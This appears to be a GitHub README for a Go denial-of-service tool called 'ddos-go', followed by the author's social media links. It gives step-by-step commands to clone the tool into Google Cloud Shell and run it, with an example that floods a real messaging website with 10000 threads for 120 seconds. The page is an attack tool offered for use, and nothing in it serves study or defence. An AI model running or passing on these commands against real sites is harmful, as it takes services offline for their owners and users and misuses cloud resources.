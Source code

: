 # **🎄 How to use this 🎄**

## First
- Access [Google Shell](https://shell.cloud.google.com/?pli=1&show=ide%2Cterminal)

## Secondly
- Paste:
```
git clone https://github.com/trantrung0710/ddos-go
cd ddos.go
go run ddos.go <link> <threads> <post/get> <second> <header.txt>
```

ex: go run ddos.go https://zalo.me/ 10000 get 120 header.txt

## Follow me
1. https://www.facebook.com/TrunnzIndex
2. https://www.tiktok.com/@chinchongzuka
3. https://www.instagram.com/trunnchamtinh/

